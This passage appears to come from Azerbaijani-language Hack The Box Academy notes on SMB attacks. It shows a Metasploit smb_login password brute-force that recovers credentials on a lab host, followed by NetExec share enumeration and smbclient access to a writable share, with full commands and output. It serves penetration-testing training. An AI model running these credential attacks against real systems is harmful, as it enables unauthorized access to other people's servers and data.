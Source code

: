 ```bash
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts


msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

İndi mövcud paylaşımları və onlar üçün hansı imtiyazlara malik olduğumuzu görmək üçün yenidən **NetExec**-dən istifadə edə bilərik.

### NetExec

```bash
nijatmansimov@htb[/htb]$ netexec smb 10.129.42.197 -u "user" -p "password" --shares
SMB         10.129.42.197   445    WINSRV           [*] Windows 10.0 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.42.197   445    WINSRV           [+] WINSRV\user:password 
SMB         10.129.42.197   445    WINSRV           [+] Enumerated shares
SMB         10.129.42.197   445    WINSRV           Share           Permissions     Remark
SMB         10.129.42.197   445    WINSRV           -----           -----------     ------
SMB         10.129.42.197   445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.42.197   445    WINSRV           C$                              Default share
SMB         10.129.42.197   445    WINSRV           SHARENAME       READ,WRITE      
SMB         10.129.42.197   445    WINSRV           IPC$            READ            Remote IPC
```

SMB vasitəsilə serverlə əlaqə qurmaq üçün, məsələn, **smbclient** alətindən istifadə edə bilərik. Bu alət, imtiyazlarımız imkan verərsə, paylaşımların məzmununu görməyə, faylları yükləməyə və ya endirməyə imkan verəcək.

### Smbclient

```bash
nijatmansimov@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME
Enter WORKGROUP\user's password: *******

Try "help" to get a list of possible commands.


smb: \> ls
  .                                  DR        0  Thu Jan  6 18:48:47 2022
  ..                                 DR        0  Thu Jan  6 18:48:47 2022
  desktop.ini                       AHS      282  Thu Jan  6 15:44:52 2022

                10328063 blocks of size 4096. 6074274 blocks available
smb: \> 
```
